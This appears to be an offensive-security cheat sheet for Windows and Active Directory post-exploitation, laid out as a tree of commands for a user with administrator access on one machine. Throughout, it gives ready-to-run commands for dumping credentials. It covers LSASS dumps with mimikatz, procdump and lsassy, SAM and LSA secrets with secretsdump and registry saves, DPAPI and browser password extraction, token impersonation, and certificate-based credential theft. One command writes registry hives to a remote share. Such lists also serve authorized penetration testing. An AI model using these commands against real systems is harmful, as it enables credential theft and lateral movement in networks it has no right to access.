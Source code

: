 ### Administrator access on 1 machine


Extract credentials from LSASS
		LSASS as a Protected Process
			PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp
			mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys 
		procdump.exe -accepteula -ma lsass.exe lsass.dmp
			mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
		mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"  "exit"
		load kiwi
			creds_all
		cme smb <ip_range> -u <user> -p <password> -M lsassy
		🔥lsassy -d <domain> -u <user> -p <password> <ip>
		
Extract credentials from SAM
		cme smb <ip_range> -u <user> -p '<password>' --sam 
		hashdump
		reg save HKLM\SAM <file>;  reg save HKLM\SECURITY <file>; reg save HKLM\SYSTEM <file>
			secretsdump.py  -system SYSTEM -sam SAM LOCAL
		shadow copies
			diskshadow list shadows all
				mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
		mimikatz "privilege::debug" "lsadump::sam" "exit"
		🔥secretsdump.py <domain>/<user>:<password>@<ip>
		reg.py <domain>/<user>:<password>@<ip> backup -o '\\<smb_ip>\share'
			secretsdump.py -sam <sam_file> -system <system_file> LOCAL
		
Extract credentials from LSA
		cme smb <ip_range> -u <user> -p '<password>' --lsa
		🔥secretsdump.py <domain>/<user>:<password>@<ip>
		reg.py <domain>/<user>:<password>@<ip> backup -o '\\<smb_ip>\share'
			secretsdump.py -security <security_file> -system <system_file> LOCAL
		

dpapi extract
		🔥DonPAPI.py <domain>/<user>:<password>@<target>
		mimikatz.exe "sekurlsa::dpapi"
		secretsdump.py <domain>/<user>:<passwor>@<ip>

search password files
		findstr /si 'password' *.txt *.xml *.docx

search stored password 
		lazagne.exe all

chrome
		%appdata%\Local\Google\Chrome\User Data\Default
			SharpChromium.exe
token manipulation
		.\incognito.exe list_tokens -u
			.\incognito.exe execute -c "<domain>\<user>" powershell.exe
		use incognito
			impersonate_token <domain>\\<user>
		Extract credentials with certificate authentication  (ADCS required)
			masky - d <domain> -u <user>  (-p <password> || -k || -H <hash>) -ca <certificate authority> <ip>



